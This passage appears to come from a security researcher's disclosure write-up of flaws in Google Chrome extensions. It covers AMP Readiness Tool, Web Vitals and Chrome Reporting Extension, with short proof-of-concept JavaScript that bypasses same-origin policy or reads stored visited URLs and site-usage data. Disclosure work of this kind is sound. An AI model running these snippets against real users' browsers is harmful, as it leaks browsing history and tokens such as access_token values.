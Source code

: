 **URL:** <https://chrome.google.com/webstore/detail/amp-readiness-tool/fadclbipdhchagpdkjfcpippejnekimg>

```js
window.onclick = () => {
  open("https://www.google.com");
  setTimeout(() => {
    chrome.runtime.sendMessage({ id: "get_apps", tab: { id: "" } }, (e) => {
      console.log(e.html);
    });
  }, 3000);
};
```

### Attack scenario

A compromised renderer can bypass the same origin policy.

# URLs leak in Web Vitals (Fixed, Not an official google app but labeled as one on web.dev)

**URL:** <https://chrome.google.com/webstore/detail/web-vitals/ahfhijdlegdabablpippeagghigmibma>

```js
chrome.storage.local.get(null, (results) => {
  for (let hash in results) {
    console.log(results[hash].location);
  }
});
```

ChromeVox has a similar issue which never got fixed. <https://issues.chromium.org/issues/40050494#comment24>

### Attack scenario

A compromised renderer can leak visited URLs, which may contain sensitive data, such as an access_token.

This was fixed by <https://github.com/GoogleChrome/web-vitals-extension/commit/5187dbddcdea7886009f937344a7d4c0b4590598>

# Site usage data leak in Chrome Reporting Extension (Accepted, Not rewarded)

**URL:** <https://chrome.google.com/webstore/detail/chrome-reporting-extensio/emahakmocgideepebncgnmlmliepgpgb>
This extension requires setup to work: Create DWORD `report_user_browsing_data` with the value of `1` in `HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Google\Chrome\3rdparty\extensions\emahakmocgideepebncgnmlmliepgpgb\Policy`
In the context of the content script on an attacker controlled site run:

```js
chrome.storage.local.get("activeSites", (e) => {
  for (let url in JSON.parse(e.activeSites)) console.log(url);
});
```


[^0-0]: <https://chrome.google.com/webstore/detail/perfetto-ui/lfmkphfpdbjijhpomgecfikhfohaoine>
[^1-0]: <https://source.chromium.org/chromium/chromium/src/+/main:chrome/browser/extensions/api/debugger/debugger_api.cc;drc=3ecbe8e3eacb4ac62561e9e786e40e7e60eefd44;l=154>
[^0-1]: <https://chrome.google.com/webstore/detail/screen-reader/kgejglhpjiefppelpmljglcjbhoiplfn>
[^1-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/>
[^2-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/api_implementation.js;l=71;drc=a7bb5589468949d3c12d3e067621eb51252ee031>
[^3-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/api_implementation.js;l=312;drc=a7bb5589468949d3c12d3e067621eb51252ee031>
[^4-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/api_util.js;l=78;drc=3e1a26c44c024d97dc9a4c09bbc6a2365398ca2c>
[^5-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/pdf_processor.js;l=138;drc=3e1a26c44c024d97dc9a4c09bbc6a2365398ca2c>
[^0-2]: <https://chrome.google.com/webstore/detail/form-troubleshooter/lpjhcgjbicfdoijennopbjooigfipfjh>
[^1-2]: <https://github.com/GoogleChromeLabs/form-troubleshooter>
[^0-3]: <https://chrome.google.com/webstore/detail/secure-shell/iodihamcpbpeioajjeobimgagajmlibd>
[^1-3]: <https://chrome.google.com/webstore/detail/deprecated-secure-shell-a/pnhechapfaindjhompbnflcldabbghjo>